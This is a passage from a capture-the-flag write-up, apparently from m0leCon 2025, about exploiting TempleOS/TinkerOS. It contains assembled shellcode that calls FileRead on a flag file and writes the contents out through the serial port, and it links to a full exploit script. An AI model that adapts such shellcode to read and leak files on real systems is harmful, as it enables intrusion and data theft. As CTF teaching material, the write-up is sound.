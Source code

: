 In our shellcode we have free reign. If we decide to manually perform output, we
only need to be careful and `Yield()` often enough because TempleOS is *not*
preemptive and we can end up deadlocking the system. This is not necessarily
needed, but can significantly improve the stability of the shellcode.

```python
Yield    = 0x105c5
FileRead = 0x38ccc

payload += asm('''
    /* FileRead("~/Flag.TXT", NULL, NULL); */
    push 0
    push 0
    lea eax, [rip + fname]
    push rax
    mov eax, {FileRead}
    call rax

    mov esi, eax
    mov ecx, 100
    mov edi, {Yield}

    /* Write to serial carefully one byte at a time. Could also be done with
     * a simple REP OUTSB but that might hang the OS. */
wait:
    mov dx, 0x3f8 + 5
    in al, dx
    and al, 0x20
    jnz ok
    call rdi
    jmp wait
ok:
    mov dx, 0x3f8
    mov al, [esi]
    out dx, al
    inc esi
    loop wait

    /* Yield to properly flush serial. Again, optional, just to avoid hangs
     * or crashes before we get the data. */
done:
    call rdi
    jmp done

fname:
    .asciz "~/Flag.TXT"
''')
```

### Complete exploit

See [`src/expl.py`](src/expl.py) for the complete exploit script.


[tinkeros]: https://github.com/tinkeros/TinkerOS


[ctftime-m0lecon-2025]: https://ctftime.org/event/2725